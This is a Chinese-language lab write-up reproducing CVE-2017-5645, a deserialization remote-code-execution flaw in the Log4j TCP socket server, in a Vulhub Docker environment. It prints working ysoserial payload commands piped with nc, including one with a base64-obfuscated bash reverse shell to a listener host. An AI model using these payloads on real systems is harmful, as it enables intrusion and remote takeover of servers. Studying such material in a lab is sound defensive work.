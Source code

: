 # Apache Log4j Server 反序列化命令执行漏洞 CVE-2017-5645

## 漏洞描述

Apache Log4j是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j 2.8.2之前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码。

## 环境搭建

Vulhub执行如下命令启动漏洞环境

```
docker-compose up -d
```

环境启动后，将在4712端口开启一个TCPServer。

说一下，除了使用vulhub的docker镜像搭建环境外，我们下载了log4j的jar文件后可以直接在命令行启动这个TCPServer：`java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`，无需使用vulhub和编写代码。

## 漏洞复现

我们使用ysoserial生成payload，然后直接发送给`your-ip:4712`端口即可。

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

然后执行`docker-compose exec log4j bash`进入容器，可见 /tmp/success 已成功创建：

![image-20220226211513715](./images/202202262115772.png)

执行[反弹shell的命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功弹回shell：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc0LjEyOC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}" | nc your-ip 4712
```

![image-20220226211802491](./images/202202262118589.png)


